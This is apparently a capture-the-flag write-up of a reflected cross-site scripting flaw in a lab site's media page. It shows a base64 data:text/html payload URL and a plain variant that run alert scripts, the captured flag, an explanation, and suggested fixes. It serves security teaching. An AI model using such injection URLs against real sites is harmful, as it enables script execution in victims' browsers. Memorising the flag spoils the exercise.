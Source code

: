 # XSS on URL

### Breach description

One of the images has its source in the url and is then displayed within an object, this gives us the opportunity to manipulate it, in order to execute some javascript instead of displaying the picture when a user follows the link:

```bash
[http://WEBSITE_IP/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==](http://192.168.64.4/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)
```

instead of the intended link:

```jsx
http://WEBSITE_IP/?page=media&src=nsa
```

the following code will be executed:

```jsx
<script>alert(1)</script>
```

and the following flag given:

**The flag is : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D**

### Explanation of the breach

Mechanism

- When a user visits the manipulated URL, the browser interprets the **`src`** value as HTML content (due to the **`data:text/html;base64,`** prefix) and executes the JavaScript code.

This also works without encoding the data in base 64 and makes the exploit easier to understand, but will not give you a flag 😞

```jsx
[http://WEBSITE_IP/?page=media&src=data:text/html,](http://192.168.64.4/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)<script>alert('hello corrector')</script>
```

We basically just specify what the object data should be interpreted as, in this case html, then put a script in this html and this will be executed.

### Breach Fix

Sanitising the src parameter could be a good first step, escaping chars to keep user input from being interpreted for example, not using an object tag would not eliminate the potential for an xss but would perhaps reduce its flexibility. Not placing the src in the url would seem wise.
